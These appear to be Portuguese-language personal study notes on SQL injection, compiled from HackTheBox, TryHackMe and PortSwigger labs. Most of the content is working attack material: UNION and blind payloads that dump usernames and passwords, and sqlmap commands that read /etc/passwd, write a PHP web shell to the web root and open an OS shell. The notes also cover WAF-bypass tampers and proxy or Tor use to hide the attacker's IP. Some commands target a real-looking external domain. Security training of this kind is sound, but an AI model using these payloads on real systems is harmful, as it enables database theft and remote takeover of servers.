

# SQL Injection (geral acho)

SE TIVER SQL INJECTION PODEMOS FAZER UPLOAD DE ARQUIVOS (WEB SHELL) !! → usar sqlmap → opcao de **`--os-shell`** para inserir , ou opcao (melhor) de criarmos um arquivo webshell e inserir no comando com: **`--file-write=webshell.php`** e **`--file-dest=<PATH>/webshell.php`**

**OBS**: Usar **`+`** para espaco, e **`--`** ou **`#`** no final.

NA HORA DE ENUMERAR COLUNAS usar strings (contextos de parametros como category) para testar!

Testar para todos tipos de banco! (portwsigger cheat-sheet)

[https://portswigger.net/web-security/sql-injection](https://portswigger.net/web-security/sql-injection)

[https://portswigger.net/web-security/sql-injection/cheat-sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)

COMECAMOS enumerando colunas (no refletido, ou que reflete por exemplo produtos de busca e podemos usar Union) com order by. (dps disso jogamos no sqlmap)

Ao procurar em um campo de pesquisa, analisar o inspecionar pra ver se tem requisicao indo para o BD.

- SQL Injection Fundamentals (HackTheBox)
    - **`describe table;`** → ver as colunas e seus nomes na tabela.
        
        ```bash
        mysql -u root -p<password>
        # Podemos tambem colocar apenas -p e inserir a senha depois do Enter
        
        # Host remoto:
        mysql -u root -h docker.hackthebox.eu -P 3306 -p 
        ```
        
    
    ---
    
    - **SQL Injections**
        - <u>**Tipos de SQL Injection**</u>
            1. **In-band SQL Injection**: o resultado da injeção é mostrado diretamente na página.
                - **Union-based**: usa `UNION` para combinar a resposta da injeção com a consulta original.
                - **Error-based**: força um erro no banco para exibir informações úteis.
            2. **Blind SQL Injection**: o resultado **não aparece diretamente**, então é inferido.
                - **Boolean-based**: usa condições (`IF`, `WHERE`) e observa mudanças na resposta da página.
                - **Time-based**: usa funções como `SLEEP()` para detectar atrasos baseados em condições verdadeiras ou falsas.
            3. **Out-of-band SQL Injection**: os dados são enviados para fora, como para um servidor controlado pelo atacante (ex: via DNS).
        - **Union** → apenas roda quando a quantidade de colunas dos dois selects eh a mesma, porem caso nao seja naturalmente, podemos forcar para que seja inserindo numeros para preencher, Ex:
            
            ```bash
            SELECT * FROM products WHERE product_id = '1'
            UNION SELECT username, 2, 3, 4 FROM passwords;
            ```
            
        - **Database Enumeration**
            - Testes comuns para identificar o v:
                
                
                | Payload | Situação de uso | Indicação de MySQL |
                | --- | --- | --- |
                | **`SELECT @@version`** | Quando há saída visível | Exibe versão do MySQL/MariaDB |
                | **`SELECT POW(1,1)`** | Apenas saída numérica | Retorna `1` |
                | **`SELECT SLEEP(5)`** | SQL Injection cega | Atraso de 5s indica MySQL |
            - E de acordo com o resultado, se for **MySQL/MariaDB**, podemos seguir enumerando com **INFORMATION_SCHEMA** (banco de dados interno que armazena metadados dos demais bancos)
            - Enumerando com **INFORMATION_SCHEMA**
                1. **Descobrir Bancos de Dados**
                    
                    ```sql
                    ' UNION SELECT 1,SCHEMA_NAME,3,4 FROM INFORMATION_SCHEMA.SCHEMATA-- -
                    ```
                    
                    - **Ignorar** bancos padrão (information_schema, mysql, performance_schema, sys)
                2. **Banco Atual em Uso**
                    
                    ```sql
                    ' UNION SELECT 1,DATABASE(),2,3-- -
                    ```
                    
                3. **Listar Tabelas (ex: banco `dev`)**
                    
                    ```sql
                    ' UNION SELECT 1,TABLE_NAME,TABLE_SCHEMA,4 FROM INFORMATION_SCHEMA.TABLES WHERE TABLE_SCHEMA='dev'-- -
                    ```
                    
                4. **Listar Colunas (ex: tabela `credentials`)**
                    
                    ```sql
                    ' UNION SELECT 1,COLUMN_NAME,TABLE_NAME,TABLE_SCHEMA FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_NAME='credentials'-- -
                    ```
                    
                5. **Dump de Dados (ex: `username`, `password`)**
                    
                    ```sql
                    ' UNION SELECT 1,username,password,4 FROM dev.credentials-- -
                    ```
                    
        
        ---
        
        - **Privilegios do nosso User + Reading Files + Writing Files**
            - Para poder saber se conseguimos Ler/Escrever, Primeiramente precisamos checar o nosso usuario e depois os privilegios:
                
                ```sql
                SELECT USER()
                SELECT CURRENT_USER()
                SELECT user from mysql.user
                # Em um UNION ficaria assim:
                cn' UNION SELECT 1, user, 3, 4 from mysql.user-- -
                ```
                
            - Agora checamos os privilegios do usuario que temos:
                
                ```bash
                SELECT super_priv FROM mysql.user
                # No UNION:
                cn' UNION SELECT 1, super_priv, 3, 4 FROM mysql.user-- -
                ```
                
                - SE RETORNAR MUITOS USUARIOS, podemos especificar com o nosso(ex: root):
                
                ```bash
                cn' UNION SELECT 1, super_priv, 3, 4 FROM mysql.user WHERE user="root"-- -
                ```
                
            - Se retornar um **`y`** significa que temos **superuser** **privileges**, agora para saber se temos **FILE privileges**, rodamos (nosso user: **`root@localhost`**):
                
                ```bash
                cn' UNION SELECT 1, grantee, privilege_type, 4 FROM information_schema.user_privileges WHERE grantee="'root'@'localhost'"-- -
                ```
                
            
            ---
            
            - Ao retornar **FILE** privileges, podemos prosseguir:
            - **Reading Files**
                
                ```bash
                SELECT LOAD_FILE('/etc/passwd');
                # Em UNION:
                cn' UNION SELECT 1, LOAD_FILE("/etc/passwd"), 3, 4-- -
                ```
                
                - Além de ler arquivos, podemos também ver o código fonte do website, tendo em vista que a página é **`search.php`** e que por padrão fica no diretório **`/var/www/html`**:
                    
                    ```bash
                    cn' UNION SELECT 1, LOAD_FILE("/var/www/html/search.php"), 3, 4-- -
                    ```
                    
                - **ELE NÃO MOSTRARÁ instantaneamente o código**, portanto depois de rodar o comando precisamos pressionar **`Ctrl + U`.**
            - **Writing Files**
                - O **privilegio** **FILE** nao garante totalmente que temos permissao de escrita, por isso tambem precisamos verificar o **`secure_file_priv`:**
                    
                    ```sql
                    cn' UNION SELECT 1, variable_name, variable_value, 4
                    FROM information_schema.global_variables
                    WHERE variable_name="secure_file_priv"-- -
                    ```
                    
                    - `NULL`: ❌ Não é possível escrever arquivos.
                    - Se vazio: ✅ Pode escrever em qualquer local (ex: `/tmp`, `/var/www/html`).
                    - Se um diretório: ✅ Pode escrever **somente naquele diretório**.
                
                ---
                
                - Seguimos para escrever arquivos:
                    
                    ```sql
                    # Dump da tabela 'users':
                    SELECT * FROM users INTO OUTFILE '/tmp/credentials';
                    
                    # Gravar arquivo de teste acessivel na web:
                    cn' UNION SELECT "",'OLA TESTE!',"", "" 
                    INTO OUTFILE '/var/www/html/proof.txt'-- -
                    ```
                    
                - **ESCREVER WEB SHELL:**
                    
                    ```sql
                    cn' UNION SELECT "",'<?php system($_REQUEST[0]); ?>',"",""
                    INTO OUTFILE '/var/www/html/shell.php'-- -
                    ```
                    
                    - Depois acessamos → **`http://host/shell.php?0=id`**
        
        ---
        
- SQLMap (HackTheBox)
    - Sempre ir analisando os resultados e dicas do sqlmap enquanto roda.
        
        (SE TIVER + DE 1 PARAMETRO, **TESTAR UM POR VEZ**, para fazer isso colocamos o ASTERISCO (**`*`**) no valor do parametro que queremos SOMENTE)
        
        SE FOR POST, copiamos o request, colamos em um arquivo e rodamos como:
        
        **`sqlmap -r sql-file --batch`**
        
        Se for GET:
        
        **`sqlmap -u "http://www.example.com/vuln.php?id=1" --batch`**
        
    - **`--level={1..5}`** → muda diretamente quais os parametros que ele vai testar (padrao sendo 1, que testa apenas GET e POST). **`--risk={1..3}` →** risco a se tomar (padrao sendo 1, **sem danificar o servidor**), 2 e 3 podem causar danos e modificar o BD. **OBS: praticamente so precisaremos/poderemos mudar o level.**
    
    ---
    
    - **Cenario comum:** acessamos um site e vemos que ele aceita input nosso via GET parameter (ex: id) → <u>www.example.com/vuln.php?id=1</u>. Checamos com sqlmap para ver se eh vulneravel → **`sqlmap -u "http://www.example.com/vuln.php?id=1" --batch`** (**`--batch`** → usa input default em vez de termos que inserir, ex: `Y/n`)
    - Para pegar o comando, podemos simplesmente ir no **Inspecionar** → **Network** → no **request** (seja GET ou POST), clicar com o botão direito e **copiar como cURL**, e depois colamos no terminal e trocamos cURL por sqlmap. Add **`--batch`** e **`--dump`**.
    - Se o parametro (ex: id=1) estiver sendo enviado pelo cookie (raro): **`sqlmap 'http://83.136.252.13:56588/case3.php' --cookie='id=1*' --dump --batch`.**
    
    ---
    
    - **Enumeration**
        - Comando para descobrir algumas info importantes (banner, username, nome do BD, checar se o usuario eh admin no BD): **`--banner --current-user --current-db --is-dba`**
        - OU extrair todas as tabelas e dados do banco: **`--dump-all`**
        - Mostrar todas as tabelas e suas colunas: **`--schema`**
        
        ---
        
        - especificar DMBS e conseguir nome do banco → **`--dbms=mysql --current-db`**
        - especificar nome BD e conseguir tabelas (ex: testdb): **`-D testdb --tables`**
        - especificar tabela e procurar info dela (ex: users): **`-T users -D testdb --dump`**
        - Podemos tambem pesquisar por alguma palavra especifica e especificando se eh uma coluna ou tabela que estamos buscando: **`--search -T user`**, **`--search -C pass`**
    - **Bypass de Proteções Web**
        
        ### 🔐 **Anti-CSRF Token**
        
        - CSRF Tokens evitam automação forçando o uso de um token válido em requisições.
        - O SQLMap consegue lidar com isso usando:
            - `-csrf-token=nome_do_parametro`
                
                Ele identifica e atualiza automaticamente o token nos próximos envios.
                
            
            ```bash
            sqlmap -u "http://www.example.com/" --data="id=1&csrf-token=WfF1szMUHhiokx9AHFply5L2xAOfjRkE" --csrf-token="csrf-token"
            ```
            
        
        ---
        
        ### 🔄 **Valores Únicos Requeridos**
        
        - Algumas apps exigem valores únicos por requisição para bloquear automações.
        - Use `-randomize=param` para gerar um valor diferente automaticamente para esse parâmetro.
        
        ---
        
        ### 🧮 **Parâmetros Calculados**
        
        - Parâmetros podem depender de valores derivados de outros (ex: `h=MD5(id)`).
        - Use `-eval="código Python"` para gerar dinamicamente o valor antes do envio.
        
        ---
        
        ### 🕵️ **Esconder o IP**
        
        - Use proxy com `-proxy="socks4://ip:porta"` ou `-proxy-file=lista.txt`.
        - Para usar a rede Tor:
            - Ative com `-tor`
            - Verifique com `-check-tor`
        
        ---
        
        ### 🧱 **Detecção e Bypass de WAF (Web Application Firewall)**
        
        - SQLMap detecta WAFs automaticamente com payloads de teste.
        - Para evitar barulho: use `-skip-waf`
        - Usa a biblioteca `identYwaf` para identificar o WAF em uso.
        
        ---
        
        ### 🎭 **User-Agent Bloqueado**
        
        - Se a aplicação bloquear o user-agent do SQLMap:
            - Use `-random-agent` para simular browsers reais.
        
        ---
        
        ### 🧪 **Tamper Scripts (Evasão de Proteções)**
        
        - Scripts que alteram a sintaxe do payload para escapar de filtros.
        - Exemplo de script:
            - `between`: substitui `>` por `NOT BETWEEN 0 AND #`
        - Ex na pratica:
            - `--tamper=between`
            - Scripts são executados em ordem de prioridade.
    - **OS Exploitation**
        - Para ver se temos acesso de Read/Write Files no BD, primeiramente vemos se temos privilegio DBA:
            
            ```bash
            sqlmap -u "http://www.example.com/case1.php?id=1" --is-dba
            ```
            
        
        ---
        
        - <u>**Read Files**</u>
            
            ```bash
            sqlmap -u "http://www.example.com/?id=1" --file-read "/etc/passwd"
            ```
            
            - **OBS**: ele salva o arquivo em um diretório remoto e nos mostra onde.
        
        ---
        
        - <u>**Write Files**</u>
            - Primeiro preparamos um php com Webshell no nosso terminal:
                
                ```bash
                echo '<?php system($_GET["cmd"]); ?>' > shell.php
                ```
                
            - Agora tentamos escrever esse arquivo no diretório **`/var/www/html/`** do alvo (padrão):
                
                ```bash
                sqlmap -u "http://www.example.com/?id=1" --file-write "shell.php" --file-dest "/var/www/html/shell.php"
                ```
                
            - Se der certo ele vai retornar algo como: **`[17:54:28] [INFO] the local file 'shell.php' and the remote file '/var/www/html/shell.php' have the same size (31 B)`**
            - Agora simplesmente dar um cURL para rodar os comandos **(OBS: usar o `+` para indicar espaco):**
                
                ```bash
                curl http://www.example.com/shell.php?cmd=ls+-la
                ```
                
            - AGORA que conseguimos acesso a escrever arquivos, podemos tentar fazer um <u>**OS Command Execution</u>:**
                
                ```bash
                sqlmap -u "http://www.example.com/?id=1" --os-shell
                ```
                
            - Se der erro (No output) podemos tentar outra técnica padrão para esse caso(**Error-based SQL Injection**):
                
                ```bash
                sqlmap -u "http://www.example.com/?id=1" --os-shell --technique=E
                ```
                
    
    ## **Usando <u>SQLMAP</u>**
    
    - **Descobrir bancos de dados**:
        
        `sqlmap -u www.bancocn.com/cat.php?id=3 --dbs --dbms=mysql`
        
    - **Se o Cloudflare bloquear**:
        - Capturar o **header** (cookie) da página e salvar num `.txt`.
        - Exemplo de comando com header:`sqlmap -r header.txt --dbs --dbms=mysql`
    - **Explorar banco e tabelas**:
        - Listar tabelas:`sqlmap -r header.txt --dbs --dbms=mysql -D bancocn --tables`
        - Listar colunas de uma tabela:`sqlmap -r header.txt --dbs --dbms=mysql -D bancocn -T users --columns`
        - Extrair dados (login, password):`sqlmap -r header.txt --dbs --dbms=mysql -D bancocn -T users -C login,password --dump`

---

- SQL Injection (TryHackMe)  (melhor)
    - `‘ or 1=1 --`
    - Tentar inserir em tudo quanto eh lugar, em valores de parametros, em PARAMETROS, em diretorios, etc.
    - **Teoria**
        - **I<u>n-Band</u> SQLi (SQLi Clássico)**
            
            **→** Nos ataques In-Band SQLi o ataque é feito diretamente pela aplicação web e a mesma serve como intermediária no ataque, tanto para a passagem de Querys quanto para o recebimento de informações do banco de dados. São os mais fáceis de serem explorados.
            
            - <u>**Error-based**</u>
                - no ataque de Error-based, as informações coletadas do banco são informadas através de mensagens de erro propositalmente causadas
                para o vazamento de informações do banco
            - <u>**Union-based**</u>
                - Combina váris Querys de SELECT para resultar no vazamento de informações do banco. Acontece quando o sistema não tem a filtragem do parâmetro Union.
        
        ---
        
        - <u>**Inferential</u> SQLi (Blind SQLi)**
            
            → Nos ataques Blind SQLi o ataque é feito através da aplicação, porém a resposta não está inteiramente explícita e precisa ser inferida
            através do comportamento da aplicação na resposta(não mostra o banco em si mas podemos perguntar e ver se a resposta eh correta ou nao)
            
            - **Boolean-based**
                - no ataque boolean-based, através da resposta da aplicação poderá ser verificada uma resposta verdadeira ou falsa para a Query
                passada, podemos inferir todo o banco, informação por informação.
            - **Time-based**
                - assim como no boolean-based o time-based também trabalha da mesma maneira, porém desta vez utilizamos o tempo de resposta dos
                servidores como diferenciador de respostas
                - SEMPRE que estivermos fazendo um time-based, evitar usar a internet no mesmo pc pois irá atrapalhar.
        
        ---
        
        - <u>**Out-of-Band</u> SQLi**
            
            → É o ataque menos comum, é utilizado em casos no qual se pode fazer requisições DNS ou HTTP pelo servidor da vítima mirando o servidor do atacante, e assim pode-se fazer a inferência através de diferenciações de resposta.
            
    
    ### **SQL na Prática:**
    
    - <u>**SQL Básico</u> (Union-based)**
        - **Nem todo site com `cat.php?id=` é vulnerável a SQLi**. Porém se digitarmos `id=’` e der erro de syntax SQL, significa vulnerabilidade.
        - **Order by**: Usado para descobrir o número de colunas. Exemplo:
            - `www.bancocn.com/cat.php?id=1 order by 1` (testar até dar erro, indicando o número de colunas).
        - **Union Select**: Combina resultados de múltiplos selects.
            - Exemplo: `www.bancocn.com/cat.php?id=-1 union select 1, 2, "alex"`.
            - O valor `"alex"` será mostrado na tela se o site printar a última coluna.
            - Para obter o nome do banco: `www.bancocn.com/cat.php?id=-1 union select 1, 2, database()`. ou `schema_name from information_schema.schematas`.
        - **Schema e tabelas**:
            - Descobrir nomes dos schemas: `union select 1, 2, group_concat(schema_name) from information_schema.schemata`.
            - Descobrir tabelas de um schema específico: `union select 1, 2, group_concat(table_name) from information_schema.tables where table_schema="bancocn"`.
        - **Colunas e dados**:
            - Para descobrir colunas de uma tabela: `union select 1, 2, group_concat(column_name) from information_schema.columns where table_schema="bancocn" and table_name="users"`.
            - Para extrair dados: `union select 1, 2, group_concat(id,":",login,":",password) from bancocn.users`.
        - **Descriptografia de senhas**: Senhas geralmente estão criptografadas (MD5, etc.). Usar bruteforcing, como com a ferramenta Hashkiller.
    
    ---
    
    - **SQL Injection com <u>Post</u>**
        - Primeiramente podemos de forma tambem automatizada encontramos os formularios presentes em um site pelo sqlmap:
        
        ```bash
        sqlmap -u http://labs990055.bancocn.com/mutillidae/index.php?page=add-to-your-blog.php --forms --dbms=mysql --dbs --dbms=mysql --dbs -p blog_entry
        ```
        
        ---
        
        1. Realizar um request de Post → inspecionar e ver o request header/body, podemos copiar e colar ele em um arquivo txt, após isso usar o sqlmap:
        
        ```bash
        sqlmap -r request.txt --dbms=mysql --dbs -p blog_entry
        ```
        
        -**-dbms=mysql**  ⇒ especifica o banco de dado (sempre melhor quando temos)
        
        --dbs  ⇒ traz o nome dos bancos de dados
        
        **-p blog_entry**  ⇒ usamos o parametro blog_entry, pois nesse caso eh o nome do botao que envia o formulario
        
        ---
        
        1. após encontrarmos o nome do banco de dados (--dbs ), podemos troca-lo no proximo comando para especificar um banco de dados que encontramos e tentar ver as tabelas:
        
        ```bash
        sqlmap -r request.txt --dbms=mysql -p blog_entry -D muti --tables
        ```
        
        -D muti --tables  ****⇒  -D espeficica o banco de dados: “muti” e pede pelas tabelas
        
        ---
        
        1. depois de encontrarmos o nome das tabelas, para vermos as colunas:
        
        ```bash
        sqlmap -r request.txt --dbms=mysql -p blog_entry -D muti -T accounts --columns
        ```
        
        -T accounts --columns  ⇒ -T especifica o nome da tabela: “accounts” e pede pelas colunas
        
        ---
        
        1. por fim, para ver o valor dos campos das colunas:
        
        ```bash
        sqlmap -r request.txt --dbms=mysql -p blog_entry -D muti -T accounts -C username, password --dump
        ```
        
         -C username, password  ⇒ pede pela coluna username e password  
        
        --dump  ⇒ apenas uma intrução para extrair e exibir o conteúdo pedido
        
    
    ---
    
    - **SQL Injection Avançado**
        - **Quando o site usa PROXY REVERSO:**
            - Podemos realizar um SQL Injection pelo header, pois o sistema normalmente irá obter alguns dados dele, como o cookies, etc… E a partir disso manipulamos os dados para realizar o SQL Injection.
            - Existem diversos campos ocultos que não aparecem no nosso header, nesse link podemos ver todos os existentes: [https://en.wikipedia.org/wiki/List_of_HTTP_header_fields](https://en.wikipedia.org/wiki/List_of_HTTP_header_fields)
                
                Para sabermos se o site está usando algum desse campo/manipulando, apenas testando para saber.
                
            - Quando nos conectamos com um site:
                
                
                
                - o cloudflare envia para o site um IP que não é o nosso(190.190..) e o site estabelece conexao conosco.
                - Porém o site recebe o nosso verdadeiro IP de outra forma, através de uma variavável **X-forwarded-for,**
            
            ---
            
            1. Sabendo disso, primeiramente vamos criar nosso header.txt, podendo adicionar além dos campos padrões que pegamos da conexão, alguns campos que vemos no link acima, ex:
                1. X-Forwarded-For: 200.200.200.200
                2. X-Forwarded-Host: wikipedia.org
            2. Após isso, usamos o sqlmap:
                
                ```bash
                sqlmap -r header.txt -p X-Forwarded-For --dbs --dbms=mysql
                ```
                
                -p X-Forwarded-For  ⇒ Passamos o parâmetro que queremos injetar
                
                --dbs  ⇒ encontrar nome do banco
                
            3. Podemos usar o BurpSuite para analisar como o sqlmap está operando, abrindo o Burpsuite, deixando a interceptação off, indo em proxy → HTTP history e esperamos. Após isso enviamos o código:
                
                ```bash
                sqlmap -r header.txt -p X-Forwarded-For --dbs --dbms=mysql --proxy=http://127.0.0.1:8080 --no-cast
                ```
                
                --proxy=http://127.0.0.1:8080  ⇒ direciona o tráfego gerado para podermos inspecionar pelo BurpSuite.
                
                --no-cast  ⇒  diminui o tamanho do payload, para nao ser barrado por firewalls por exemplo.
                
                → Existem tambem:
                
                → --hex  ⇒ converte os payloads para valores em hexadecimal, pois o alguns sistemas de proteção com WAFs, podem detectar strings maliciosas, porém podem passar despercebidas caso estejam em hexadecimal
                
                → --tamper=space2mysqlblank  ⇒ embaralha os dados de modo que conseguimos dar um bypass nos WAFs. No caso dei como exemplo o space2mysqlblank, mas podemos dar um google e ver a pasta de quais os tampers que existem e alterar.
                
                → --risk=3   --level=5  ⇒ risco máximo e level máximo, deixando o ataque mais agressivo
                
            
            ---
            
            - 
    
    ---
    
    - <u>**In-band**</u>    <u>**!!!**</u>
        - https://website.thm/article?id=1
        - Primeiramente tentamos inserir um ‘ para ver se resulta em erro de SQL
        - **ATENÇÃO: ABAIXO ESTÁ ESCRITO “SELECT 1,2…” NÃO USAR SOMENTE O NÚMERO POIS AS VEZES N FUNCIONA, USAR “SELECT ‘a’,’b’…” NO LUGAR!!!**
        - Depois inserimos UNION SELECT 1, resultará em um erro indicando que a quantidade de colunas no SELECT 1 é diferente da quantidade de colunas no SELECT da query (o da URL), ou seja, podemos ir inserindo números até achar a quantidade de colunas (1,2,3…)
        - a partir do momento em que achamos a quantidade de colunas, trocamos para id=0 na query padrão, para que na tela mostre o resultado da segunda query que é a nossa. `https://website.thm/article?id=0 UNION SELECT 1,2,3`
        - Trocamos o 3 da ultima coluna por `database()`, acharemos que o nome do database é `sqli_one`, agora podemos listar as tabelas:
            
            **ACHAR TABELAS:**
            
            `https://website.thm/article?id=**0 UNION SELECT 1,2,group_concat(table_name) FROM information_schema.tables WHERE table_schema = 'sqli_one'**`
            
        - **ACHAR COLUNA**, Após encontrarmos a table `staff_users`:
            
            **`0 UNION SELECT 1,2,group_concat(column_name) FROM information_schema.columns WHERE table_name = 'staff_users'`**
            
        - **PRINTAR CAMPO FINAL**, Após encontrar o username e password:
            
            **`0 UNION SELECT 1,2,group_concat(username,':',password SEPARATOR '<br>') FROM staff_users`**
            
    - **Blind → Boolean-based**
        - https://website.thm/checkuser?username=admin123
        - nesse caso, o site retorna um boolean para a gente: false ou true. Então podemos usar isso para ir descobrindo letra por letra o nome do database e etc.
        - `https://website.thm/checkuser?username=admin123' UNION SELECT 1,2,3 where database() like '%';--`
            - nesse caso o % representa qualquer caracter, ou seja o resultado será true, então podemos inserir letras antes do % e ir adicionando e vendo se o resultado é true e montando a palavra.
            - nome database = `sqli_three`
        - agora fazemos o mesmo processo para as tabelas e adiante:
            
            **`admin123' UNION SELECT 1,2,3 FROM information_schema.tables WHERE table_schema = 'sqli_three' and table_name like 'a%';--`**
            
            ---
            
            **`admin123' UNION SELECT 1,2,3 FROM information_schema.tables WHERE table_schema = 'sqli_three' and table_name='users';--`**
            
            ---
            
            **`admin123' UNION SELECT 1,2,3 FROM information_schema.COLUMNS WHERE TABLE_SCHEMA='sqli_three' and TABLE_NAME='users' and COLUMN_NAME like 'a%';`**
            
            ---
            
            **`admin123' UNION SELECT 1,2,3 FROM information_schema.COLUMNS WHERE TABLE_SCHEMA='sqli_three' and TABLE_NAME='users' and COLUMN_NAME like 'a%' and COLUMN_NAME !='id';`**
            
            ---
            
            **`admin123' UNION SELECT 1,2,3 from users where username like 'a%`**
            
            ---
            
            **`admin123' UNION SELECT 1,2,3 from users where username='admin' and password like 'a%`**
            
        
        ---
        
    - **Blind → Time-based**
        - Mesma coisa que o boolean-based, porém como não temos a resposta na tela, inserimos um tempo de sleep para retornar, sabendo assim por tentativa e erro se está correto ou não.
        - `https://website.thm/analytics?referrer=admin123' UNION SELECT SLEEP(5),2 where database() like '%';--`
            - Idem ao boolean-based para conseguirmos o nome do banco de dados e adiante, inserimos antes do % letra por letra e vamos vendo se a resposta retorna com delay(=correto).
        - `https://website.thm/analytics?referrer=admin123' UNION SELECT SLEEP(3),2 FROM information_schema.tables WHERE table_schema = 'sqli_four' and table_name like '%';--`

---

- Dentro do Burp, podemos encodar a aspas simples para testar e depois do payload, caso o sistema esteja detectando e barrando.

---

- **PortSwigger**
    
    [https://portswigger.net/web-security/sql-injection/cheat-sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)
    
    Sempre olhar o cheat-sheet acima para saber com a sintaxe que estamos lidando, e identificar quantas colunas (ex:4)
    
    - Lab #1: SQL injection vulnerability in WHERE clause allowing retrieval of hidden data (APPRENTICE)
        
        ```bash
        SELECT * FROM products WHERE category = 'Gifts' AND released = 1
        # To solve the lab, perform a SQL injection attack that causes the application to display one or more unreleased products.
        ```
        
        GET /filter?category=**`'+OR+1=1--`** HTTP/2
        
        ---
        
    - Lab #2: SQL injection vulnerability allowing login bypass (APPRENTICE)
        
        ```bash
        To solve the lab, perform a SQL injection attack that logs in to the application as the administrator user.
        ```
        
        login: **`administrator'--`**
        
        password: `bruh`
        
        (nao precisamos (e n funcionou btw) colocar `or 1=1`)
        
        ---
        
    - Lab #3: SQL injection attack, querying the database type and version on Oracle (PRACTITIONER)
        
        ```bash
        This lab contains a SQL injection vulnerability in the product category filter. You can use a UNION attack to retrieve the results from an injected query.
        ```
        
        GET /filter?category=**`'+UNION+SELECT+BANNER,+NULL+from+v$version--`** HTTP/2
        
        ---
        
    - Lab #4: SQL injection attack, querying the database type and version on MySQL and Microsoft (PRACTITIONER)
        
        ```bash
        This lab contains a SQL injection vulnerability in the product category filter. You can use a UNION attack to retrieve the results from an injected query. 
        To solve the lab, display the database version string.
        ```
        
        Determinar a quantidade de colunas com 
        
        **`'+UNION+SELECT+1,2#`**
        
        e depois:
        
        **`'+UNION+SELECT+@@version,2#`**
        
        ---
        
    - Lab #5: SQL injection attack, listing the database contents on non-Oracle databases (PRACTITIONER)
        
        ```bash
        This lab contains a SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response so you can use a UNION attack to retrieve data from other tables. The application has a login function, and the database contains a table that holds usernames and passwords. You need to determine the name of this table and the columns it contains, then retrieve the contents of the table to obtain the username and password of all users.
        To solve the lab, log in as the administrator user. 
        ```
        
        Primeiro descobrimos no parametro category a qntdade de colunas:
        
        **`'+UNION+SELECT+'abc','def'--`**
        
        Depois descobrimos os nomes das tables no database:
        
        **`'+UNION+SELECT+table_name,+NULL+FROM+information_schema.tables--`**
        
        Sabendo o nome da table, descobrimos as colunas nele existentes:
        
        **`'+UNION+SELECT+column_name,+NULL+FROM+information_schema.columns+WHERE+table_name='users_abcdef'--`**
        
        E sabendo as colunas, especificamo-as e pegamos os valores:
        
        **`'+UNION+SELECT+username_abcdef,+password_abcdef+FROM+users_abcdef--`**
        
        ---
        
    - Lab #6: SQL injection attack, listing the database contents on Oracle (PRACTITIONER)
        
        
        ---
